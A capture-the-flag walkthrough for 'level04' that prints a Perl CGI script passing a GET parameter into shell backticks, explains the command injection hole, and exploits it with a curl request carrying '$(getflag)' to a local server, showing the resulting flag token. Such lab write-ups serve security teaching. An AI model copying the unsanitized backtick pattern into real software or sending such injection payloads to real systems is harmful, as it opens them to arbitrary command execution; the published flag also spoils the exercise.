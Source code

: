 
# Resources for level04

## Walkthrough to capture the flag:

### Step 1: List files in the home directory
```bash
ls
```
> Output:
```
level04.pl
```

### Step 2: Read the content of `level04.pl`
```bash
cat level04.pl
```
> Output:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

> This script starts a simple web server on `localhost:4747` that reads a GET parameter `x` and executes it using backticks (shell execution). This is a **command injection** vulnerability.

---

### Step 3: Exploit the vulnerability using `curl`
```bash
curl 'localhost:4747/?x=$(getflag)'
```

> Output:
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

**Note:** It is important to use **single quotes `'`** around the URL in `curl` to prevent the shell from interpreting `$(getflag)` before the request is sent. If you use double quotes `"`, the command substitution will be evaluated locally instead of being passed to the server.

---

### Summary:
- The Perl script does not sanitize user input.
- It executes any shell command passed through the `x` parameter.
- We passed `$(getflag)` to the server, which was executed by the vulnerable script.
- This gave us the flag: `ne2searoevaevoem4ov4ar8ap`
